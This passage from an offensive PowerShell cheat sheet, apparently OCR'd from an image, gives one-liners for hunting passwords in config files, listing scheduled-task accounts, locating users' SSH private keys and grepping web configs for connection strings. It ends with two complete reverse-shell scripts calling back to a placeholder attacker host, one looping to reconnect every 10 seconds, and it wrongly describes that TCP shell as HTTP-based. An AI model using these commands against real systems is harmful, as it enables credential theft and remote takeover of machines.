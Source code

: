 ```powershell
Get-ChildItem -Path C:\ -Include *.config -Recurse | Select-String -Pattern 'password='
```

### Dumping Credentials from Scheduled Tasks

Lists scheduled tasks that are congured to run under specic user accounts, potentially revealing credentials used for task execution.

```powershell
Get-ScheduledTask | Where-Object {$_.Principal.UserId -notlike 'S-1-5-18'} | Select-Object TaskName, TaskPath, Principal
```

### Extracting SSH Keys from User Directories

Searches for RSA private keys in the .ssh directories of all users, which can be used for unauthorized access to SSH servers.

```powershell
Get-ChildItem -Path C:\Users\*\.ssh\id_rsa -Recurse
```

### Retrieving Credentials from Database Connection Strings

Scans for database connection strings in web application conguration les, which often contain credentials for database access.

```powershell
Select-String -Path C:\inetpub\wwwroot\*.config -Pattern 'connectionString' -CaseSensitive
```

### Simple PowerShell Reverse Shell

Establishes a basic reverse shell connection to a specied attacker-controlled machine. This allows the attacker to execute commands remotely.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream =
$client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
$i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}; $client.Close()
```

### HTTP-Based PowerShell Reverse Shell

This script creates a more resilient reverse shell that attempts to reconnect every 10 seconds if the connection is lost. It uses HTTP for communication.

```powershell
while($true) { try { $client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port);
$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
$i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}; $client.Close() } catch { Start-Sleep -Seconds 10 } }
```
